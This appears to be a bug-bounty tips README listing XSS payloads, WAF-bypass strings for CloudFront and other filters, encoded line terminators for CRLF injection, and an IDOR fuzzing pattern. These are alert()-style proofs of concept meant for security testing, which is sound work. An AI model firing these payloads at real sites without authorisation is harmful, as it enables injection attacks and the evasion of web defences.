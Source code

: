 # General tips
changing Exif metadata of an image can lead to XSS, RCE ...  [learn more](https://gokulvinesh.medium.com/rce-xss-via-image-exif-metadata-dddf33dadb41).
# XSS
1-The new reportError() function enables a quite amusing XSS vector:
```
window.name='alert(1)'
reportError(name , enerror=eval)
```
2-If you see `returnTo=` in login url , add `javascript:alert(1)` and login > xss alert.<br>
3-Amazon CloudFront WAF sometimes can be easily bypassed with `<svg onload=(alert)(1)` instead of `<svg onload=alert(1)`<br>
4-Bypass Waf <br>
```
<details%0Aopen%0AonToGgle%0A=%0Aabc=(co\u006efirm);abc%28%60xss%60%26%2300000000000000000041//
```
<br>
5-Bypass XSS WAF protection using Whitespace Separators between a JS function name and parameters <br>

```
<img/src/onerror=alert&#xFEFF;(1337)>
```
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/Whitespace%20Separators.jpeg)
# Rate limit bypass
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/Rate%20limit%20bypass.jpeg)
# Line terminators
For XSS / CRLF injection.<br>
🔹LF: %0A (\u000A)<br>
🔹VT: %0B (\u000B)<br>
🔹FF: %0C (\u000C)<br>
🔹CR: %0D (\u000D)<br>
🔹CR+LF: %0D%0A (\u000D\u000A)<br>
🔹NEL: %C2%85 (\u0085)<br>
🔹LS: %E2%80%A8 (\u2028)<br>
🔹PS: %E2%80%A9 (\u2029)<br>
# IDOR:
1-<br>
```
/api/getUser$FUZZ$
-> /api/getUserv1
-> /api/getUserBeta
```
